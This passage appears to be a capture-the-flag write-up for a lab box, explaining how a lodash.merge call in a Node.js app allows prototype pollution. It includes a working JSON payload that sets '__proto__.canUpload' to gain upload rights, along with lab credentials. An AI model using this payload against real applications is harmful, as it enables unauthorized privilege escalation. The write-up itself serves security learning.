 ```js

```

We can see several things that are interesting:
1. an admin account but its password is random generated (no luck here)
2. an /upload endpoint
3. a logging variable (messages) which is then sent to users when a get is issued to the root directory

What can we do on each:
1. Nothing
2. The user needs the **canUpload** attribute set to **True**

The third one is a more interesting one. I was discussing with my friend if we could somehow inject something through the **/todo** endpoint since it uses the request to populate the logging variable
```js
const _ = require("lodash")

// -- snip --
const message = {
    icon: '__',
};

_.merge(message, req.body.message, {
    id: lastId++,
    timestamp: Date.now(),
    userName: user.name,
});

messages.push(message);
```

Since i didn't knew what lodash was, i went on the google hunting... Found nothing, just that **lodash.merge** joins both dicts into the first <br>
After several time he said that he remembered existing several **prototype pollution** vulnerabilities related to this exact thing (one [here](https://hackerone.com/reports/310443)) <br>

We just need to craft a special payload to pollute **__prototype__** to always set **canUpload=True** on every obect
```bash
# REQUEST -> PUT /
PUT / HTTP/1.1
Host: unobtainium.htb:31337

--- snip ---

{"auth": {"name": "felamos", "password": "Winter2021"},"message":{"__proto__":{"canUpload":true}}}

# POST /upload response
HTTP/1.1 200 OK

--- snip ---

{"ok":true}
```
